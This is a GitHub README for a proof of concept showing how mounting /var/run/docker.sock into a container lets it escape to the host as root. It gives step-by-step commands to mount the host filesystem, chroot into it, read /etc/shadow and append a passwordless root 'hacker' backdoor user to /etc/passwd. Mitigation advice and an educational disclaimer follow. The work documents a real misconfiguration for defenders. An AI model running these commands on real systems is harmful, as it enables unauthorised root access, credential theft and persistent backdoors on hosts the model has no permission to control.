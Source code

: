 # 🐳 Docker.sock Breakout PoC

> 🚨 A proof-of-concept showing how mounting `/var/run/docker.sock` into a container gives root access to the host.

This project demonstrates a **critical Docker misconfiguration**. By mounting the Docker Unix socket into a container, the container can communicate with the host Docker daemon — and effectively escape its sandbox, escalate privileges, and fully control the host.

## ⚠️ TL;DR

Mounting `/var/run/docker.sock` gives the container **root-level access to the host**.

## 📁 Project Structure

```
docker-sock-poc/
├── Dockerfile
├── docker-compose.yml
└── exploit.sh
```

## 🧪 How It Works

1. A container is started with `-v /var/run/docker.sock:/var/run/docker.sock`
2. Inside the container, Docker CLI is available
3. We use Docker inside the container to run **another** container
4. That second container mounts `/` from the host and runs `chroot /host`
5. Now we’re inside the host, as root

## 🚀 Quick Start

### 1. Build and Run

```bash
git clone git@github.com:CyberSquirrel-AI/docker-sock-breakout.git
cd docker-sock-poc

docker-compose up -d
docker exec -it docker-sock-breakout sh
```

### 2. Inside the Container

```bash
docker ps
docker run -it --rm -v /:/host alpine
```

### 3. Inside the Alpine container

```bash
chroot /host
hostname
id
ls /root
cat /etc/shadow
```

## 🕵️ Optional: Add a Backdoor User

```bash
echo 'hacker::0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```

## 📉 Impact

- Full host filesystem access
- Run arbitrary containers as `--privileged`
- Read sensitive files like `/etc/shadow`, `/root/.ssh/`
- Install rootkits or persist on host
- Pivot to other containers, networks, volumes

## 🛡️ Mitigation

- ❌ Do NOT mount `/var/run/docker.sock` into untrusted containers
- ✅ Use alternatives like:
  - Kaniko
  - BuildKit
- ✅ Use rootless Docker
- ✅ Enforce security policies with AppArmor, SELinux, seccomp
- ✅ Audit Docker usage with tools like Falco, AuditD

## 🧠 Author

**@yourname**  
Security Researcher | DevSecOps | Threat Hunter

## ⚠️ Disclaimer

This project is for **educational purposes only**. Do not run this on any system you don't own or have permission to test. You are responsible for your actions.
